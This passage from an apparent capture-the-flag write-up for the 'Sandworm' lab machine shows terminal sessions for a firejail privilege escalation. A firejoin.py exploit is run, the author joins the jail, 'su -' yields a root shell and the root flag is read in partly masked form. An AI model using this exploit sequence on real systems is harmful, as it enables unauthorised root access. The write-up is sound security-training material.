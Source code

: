 

On fixing that, it works, starting the fake environment where the user
can `su -` without a password:



    atlas@sandworm:/dev/shm$ python3 firejoin.py 
    You can now run 'firejail --join=213646' in another terminal to obtain a shell where 'sudo su -' should grant you a root shell.



In the other shell, I'll join the jail, and then run `su -`:



    atlas@sandworm:~$ firejail --join=213646
    changing root to /proc/213646/root
    Warning: cleaning all supplementary groups
    Child process initialized in 9.01 ms
    atlas@sandworm:~$ su -
    root@sandworm:~#



I can read `root.txt`:



    root@sandworm:~# cat root.txt
    fd2706d1************************



## Beyond Root

### Exploring Flask

In [this video](https://www.youtube.com/watch?v=zfp7udPF8fs), I'll dig
into the Flask application on Sandworm, see how it starts, how it
provides the GPG services, and where the vulnerability is. Then I'll
